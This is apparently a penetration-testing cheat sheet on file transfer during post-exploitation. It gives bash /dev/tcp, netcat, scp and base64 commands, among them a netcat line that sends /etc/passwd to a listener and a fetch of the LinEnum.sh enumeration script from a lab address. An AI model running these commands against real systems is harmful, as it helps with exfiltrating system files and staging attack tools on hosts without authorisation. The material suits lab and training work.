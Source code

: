 ### Bash

```bash
#Connect to the Target Webserver
exec 3<>/dev/tcp/10.10.10.32/80
#HTTP GET Request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
#Print the Response
cat <&3
```

### Netcat

**To read files:**

```bash
nc -nv 192.168.49.249 80 < /etc/passwd
```

To receive:

```bash
nc -nlvp 80
```

**Using netcat to send files:**

Target

```bash
nc -l -p 1234 -q 1 > something.zip < /dev/null
```

Attack

```bash
cat something.zip | netcat <ip> 1234
```

## SSH

If creds are available

```bash
scp linenum.sh user@remotehost:/remote/path/
```

## Base64

{% hint style="info" %}
Use mf5sum command to verify and file command to check type
{% endhint %}

### Linux

To get base64 output of the file:

```bash
base64 file -w 0
```

